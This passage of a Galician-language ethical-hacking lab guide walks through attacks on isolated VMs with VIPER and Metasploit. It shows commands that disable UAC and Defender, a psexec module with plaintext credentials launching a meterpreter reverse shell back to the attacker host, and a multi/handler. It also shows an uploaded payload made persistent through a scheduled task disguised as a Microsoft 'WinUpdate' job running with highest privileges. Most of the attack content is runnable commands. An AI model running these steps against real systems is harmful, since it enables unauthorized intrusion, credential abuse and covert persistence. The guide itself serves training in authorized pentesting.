Set-Service LanmanServer -StartupType Automatic; Start-Service LanmanServer
# --- UAC OFF (require reinicio) ---
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v EnableLUA /t REG_DWORD /d 0 /f
3. Comprobar e reiniciar:
Get-MpComputerStatus | Select RealTimeProtectionEnabled, IsTamperProtected # RealTimeProtectionEnabled -> False
shutdown /r /t 0
Estes cambios reducen a seguridade; úsaos só en contornas illadas.
Dende VM-1 (msfconsole - VIPER):
use exploit/windows/smb/psexec
set RHOSTS 192.168.120.102
set SMBUser usuario
set SMBPass abc123.
set LHOST 192.168.120.100
set LPORT 5555
set PAYLOAD windows/x64/meterpreter/reverse_tcp
run

Paso 4: Verificar acceso á VM-3
Tamén por interface gráfica de VIPER:




Exemplo 3: Persistencia
Prerrequisito
Antes de comezar, realiza o Exemplo 1: Reverse Shell e o Exemplo 2: Movemento Lateral.
Concepto e diagrama en Persistencia.

Estableceremos persistencia en Windows 11 tras obter unha sesión meterpreter con psexec, mediante unha tarefa programada que reconecta tras reinicios.
Paso 1: Acceder á vítima con psexec
use exploit/windows/smb/psexec
set RHOSTS 192.168.120.102
set SMBUser usuario
set SMBPass abc123.
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.120.100
set LPORT 5555
run

Paso 2: Poñer a sesión en background

Paso 3: Iniciar un multi/handler para a persistencia (lapela Msfconsole)
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.120.100
set LPORT 6666
set ExitOnSession false
run

Paso 4: Xerar o payload para persistencia
No Dashboard → Handler&Payload → Generate Payload: selecciona o handler, formato exe para Windows, e descarga.



Paso 5: Subir o payload a VM-3 e crear a tarefa programada
Copiar no contedor docker de viper o payload en /tmp:

Subir o ficheiro ao Windows vítima:

Obter o SID do usuario (para o task.xml):
execute -f cmd.exe -a '/c wmic useraccount where name="usuario" get sid > C:\Windows\Temp\sidinfo.txt'
cat C:\\Windows\\Temp\\sidinfo.txt
task.xml (execútase con batería permitida):
echo '<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.2" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
<RegistrationInfo>
<Description>Execución persistente con batería permitida</Description>
<Author>Microsoft Corporation</Author>
</RegistrationInfo>
<Triggers>
<LogonTrigger>
<Enabled>true</Enabled>
</LogonTrigger>
</Triggers>
<Principals>
<Principal id="Author">
<UserId>S-1-5-21-2901123646-3497879057-3457833120-1001</UserId>
<LogonType>InteractiveToken</LogonType>
<RunLevel>HighestAvailable</RunLevel>
</Principal>
</Principals>
<Settings>
<DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
<StopIfGoingOnBatteries>false</StopIfGoingOnBatteries>
<AllowStartOnDemand>true</AllowStartOnDemand>
<StartWhenAvailable>true</StartWhenAvailable>
<Enabled>true</Enabled>
<Hidden>false</Hidden>
</Settings>
<Actions Context="Author">
<Exec>
<Command>C:\Windows\Temp\shell.exe</Command>
</Exec>
</Actions>
</Task>' > /home/usuario/Descargas/task.xml
# docker cp /home/usuario/Descargas/task.xml viper-c:/tmp
meterpreter> upload /tmp/task.xml C:\\Users\\usuario\\

Crear a tarefa programada a partir do ficheiro:
execute -f powershell.exe -a "-Command schtasks /create /tn 'WinUpdate' /xml C:\Users\usuario\task.xml"


A tarefa executarase ao login, con privilexios elevados, mesmo con batería, e chamará ao payload.
Paso 6: Probar ou agardar reconexión


Ou reiniciar (a sesión chega ao handler tras o login):


Resumo
VM-2(Debian) comprometida cun payload (Meterpreter) — acceso inicial.- Movemento lateral dende
VM-2caraVM-3sen pivoting, con credenciais válidas (usuario/abc123.). - Acceso a
VM-3mediantepsexec. - Persistencia mediante payload + tarefa programada.
Movemento Lateral e Pivoting
- Movemento lateral: estenderse dun equipo comprometido a outros da rede para ampliar o acceso (aquí,
psexecsobre SMB). - Pivoting: usar un equipo comprometido como relé (proxy ou túnel) para chegar a redes/segmentos non accesibles directamente.
Non son opostos: o pivoting habilita o movemento lateral cara a redes illadas. Nesta práctica a VM-2 ve a VM-3 na mesma subrede, así que se fai movemento lateral sen pivoting. (Detalle en Movemento lateral vs. Pivoting.)
Conclusión
Esta práctica ofrece un procedemento detallado para simular ataques comúns (Reverse Shell, Movemento Lateral, Persistencia) con VIPER, reproducindo a cadea de ataque dun Red Team. O obxectivo é dominar as técnicas ofensivas do pentesting (Hacking Ético): entender como pensa e actúa un atacante real para poder identificar e explotar as vulnerabilidades dun sistema de forma controlada e autorizada.